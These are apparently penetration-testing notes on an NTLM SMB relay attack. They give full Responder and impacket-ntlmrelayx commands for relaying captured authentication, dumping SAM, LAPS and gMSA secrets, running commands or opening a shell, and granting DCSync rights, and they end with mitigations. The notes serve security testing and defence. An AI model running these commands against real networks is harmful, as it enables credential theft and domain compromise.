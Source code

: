 # smb relay ntlmrelayx

**REQUIREMENTS:**

* SMB signing must be disabled.
* Relayed user creds must be admin on machine

## Information

Invoke this attack: request callback to SMB on kali using `\\IP`

1. `responder` will capture the request, pass it to `ntlmrelayx`
2. ntlmrelayx will relay the request to TARGET.txt
    1. Enables RemoteRegistry
        1. Captures system bootkey
        2. Performs intended action; Default action: SAM dump using `secretsdump.py`
        3. Retores RemoteRegistry back to disabled state.

```bash
impacket-ntlmrelayx [-6] [-t TARGET | -tf TARGET_FILE] -smb2support [-l LOOT_DIR] [-i] [-e "SHELL.exe"] [-c "COMMANDS"]
--escalate-user USER: will escalate to add ACL Replication-Get-Changes-All for USER on DC (DCSync)
# -6: IPv6
# -i: will open a smb shell, can connect using nc IP PORT
# --dump-laps: dump LAPS passwords
# --dump-gmsa: dump gMSA passwords
```

## SMB-check

```bash
nmap --script=smb2-security-mode.nse -p 445 IP/CIDR
```

## Method:

1. set `SMB=Off` and `HTTP=Off` in `/etc/responder/Responder.conf`
2. Run `sudo responder -I INTF -rdwv`
3. Run `ntlmrelayx.py -tf TARGET.txt -smb2support [FLAGS]`

## Fix

* Enable SMB signing on all devices (can cause performance issues).
* Disable NTLM Auth on network
* Account tiering (restricting domain admins to specific tasks)